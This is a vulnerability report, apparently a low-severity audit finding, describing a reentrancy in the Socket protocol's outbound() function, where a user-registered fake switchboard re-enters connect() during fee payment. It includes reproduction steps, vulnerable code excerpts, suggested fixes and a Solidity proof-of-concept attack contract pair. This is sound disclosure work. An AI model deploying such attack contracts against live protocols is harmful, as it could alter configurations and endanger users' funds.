 ### Description

The function `outbound()` can cause a reentrancy, because it calls a Swithboard that can be user supplied and thus fake.

With the current code I haven't been able to cause negative effects on the protocol.
Future updates of the code might increase the risk.
Therefor severity set to low.


### Steps to reproduce

1. Create a `FakeSwitchboard`, see sample code below
2. Register the `FakeSwitchboard` via `registerSwitchBoard()`
3. Call `connect()` using the `FakeSwitchboard`
4. Call `outbound()`
5. Function `outbound` calls `_deductFees()`, which calls `switchboard__.payFees()`
6. `switchboard__` is an untrusted address because it can be supplied by the user, in this case its the `FakeSwitchboard`
7. So `FakeSwitchboard.payFees()` is called, which can call back into to `Plug`
8. The `Plug` can call `connect()` again and change the `Switchboards` and `(de)capacitor`
9. Function `outbound()` continues but now has an enhanced version of `plugConfig` 
10. Note: it is relevant that `plugConfig` is a `storage` pointer
11. A potentially different `capacitor__` will be called from `outbound()`


### Expected behavior
Would expect the parameters inside `outbound()` to stay the same during its execution.
Possible solutions:
- use `PlugConfig memory plugConfig`, which makes a copy of `plugConfig` so it can't be changed.
- add reentrancy protection to `connect()` and `outbound()`


### Actual behavior

The `connect()` parameters can be changed via a reentrancy.


### Screenshots


### Additional information

[SocketSrc.sol#L35-119](https://github.com/SocketDotTech/socket-DL/blob/master/contracts/socket/SocketSrc.sol#L35-119)
```solidity
    function outbound(...) ... {        
        PlugConfig storage plugConfig = _plugConfigs[msg.sender][remoteChainSlug_];
        ...
        ISocket.Fees memory fees = _deductFees(
            msgGasLimit_,
            uint32(remoteChainSlug_),
            plugConfig.outboundSwitchboard__
        );
        bytes32 packedMessage = hasher__.packMessage(..., plugConfig.siblingPlug,...); // siblingPlug can be changed
        plugConfig.capacitor__.addPackedMessage(packedMessage); // capacitor__ can be changed
		...
    }
    function _deductFees(...) ... {
        ...
        switchboard__.payFees{value: fees.switchboardFees}(remoteChainSlug_); // external call to unsafe address
        ...   
    }	
```

POC for a FakeSwitchboard:
```solidity
contract FakeSwitchboard {

    address globalcb;

    function payFees(uint32 dstChainSlug_) external payable  {
        TestWithFork(globalcb).callbackfromfake();
    }

    function getMinFees(uint32 dstChainSlug_) external view  returns (uint256, uint256) {
        return (0,0);
    }
    
    function registerCapacitor(
        uint256 siblingChainSlug_,
        address capacitor_,  
        uint256 maxPacketSize_
    ) external  {  }

    function allowPacket(
        bytes32,
        bytes32 packetId_,
        uint32 srcChainSlug_,
        uint256 proposeTime_
    ) external view  returns (bool) {     
        return true;
    }

    function setcallback(address cb) public {
        globalcb = cb;
    }
}

contract Plug {
	address fake;

	constructor() {
		fake = address(new FakeSwitchboard());
		FakeSwitchboard(fake).setcallback(address(this));			
		socketGoerli.registerSwitchBoard(fake,uint256(1),slugMumbai,uint32(1));		

		socketGoerli.connect(slugMumbai,plugMumbai,fake,fake);

		bytes32 msgId = socket.outbound(slugMumbai,msgGasLimit,payload);

	}

	function callbackfromfake() public {
	   socketGoerli.connect(slugMumbai,plugMumbai,OtherSwitchBoard,OtherSwitchBoard);
	}
}

```
